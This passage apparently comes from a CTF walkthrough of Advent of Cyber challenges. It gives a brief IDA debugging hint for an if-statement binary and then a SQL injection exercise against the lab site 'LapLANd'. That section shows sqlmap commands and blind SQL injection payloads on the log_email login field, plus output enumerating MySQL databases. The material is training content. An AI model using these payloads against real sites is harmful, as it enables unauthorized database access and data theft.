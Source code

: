 ```
McSkidy has been faring on well so far with assembly - they got some inside knowledge that the christmas monster is weaponizing if statements. Can they get ahead of the curve?

These programs have been compiled to be executed on Linux x86-64 systems.
The questions below relate to the if2 binary.
```
READ [this](https://docs.google.com/document/d/1cIHd_YQ_PHhkUPMrEDWAIfQFb9M9ge3OFr22HHaHQOU/edit)
sry but im so lazy to write this one, the tips is u use IDA and set a break after the if statement and point to different ```local_Xh```

# Day 23 : LapLANd (SQL Injection) 
```
Santa’s been inundated with Facebook messages containing Christmas wishlists, so Elf Jr. has taken an online course in developing a North Pole-exclusive social network, LapLANd! Unfortunately, he had to cut a few corners on security to complete the site in time for Christmas and now there are rumours spreading through the workshop about Santa! Can you gain access to LapLANd and find out the truth once and for all?
```
READ [this](https://docs.google.com/document/d/15XH_T1o6FLvnV19_JnXdlG2A8lj2QtepXMtVQ32QXk0/edit)

## Which field is SQL injectable? Use the input name used in the HTML code.
we gonna use sqlmap with ```-r``` which is REQUESTFILE -> Load HTTP request from a file. To get the request, we run Burpsuite and intercept the post request when you tryo to login the web app. Copy the reqest and put it in a .txt:
```console
bibo318@parrot:~$ mkdir day23 && cd day23
bibo318@parrot:~/day23$ nano login.txt # put the content of the post request in this file
bibo318@parrot:~$ sqlmap -r day23/login.txt --dbs --batch # run sqlmap --dbs is Enumerate DBMS databases
OST parameter 'XXXXXX' is a false positive
POST parameter 'XXXXXXX' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 434 HTTP(s) requests:
---
Parameter: log_email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: log_email=gu2@test1.com' AND 2264=2264 AND 'WCZD'='WCZD&log_password=test123&login_button=Login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: log_email=gu2@test1.com' AND (SELECT 4668 FROM (SELECT(SLEEP(5)))sjKy) AND 'zSeO'='zSeO&log_password=test123&login_button=Login
---
[22:51:27] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[22:51:27] [INFO] fetching database names
[22:51:27] [INFO] fetching number of databases
[22:51:27] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[22:51:27] [INFO] retrieved: 6
[22:51:28] [INFO] retrieved: information_schema
[22:51:37] [INFO] retrieved: mysql
[22:51:39] [INFO] retrieved: performance_schema
[22:51:48] [INFO] retrieved: phpmyadmin
[22:51:54] [INFO] retrieved: social
[22:51:57] [INFO] retrieved: sys
available databases [6]:
[*] information_schema
[*] mysql
[*] performance_schema
```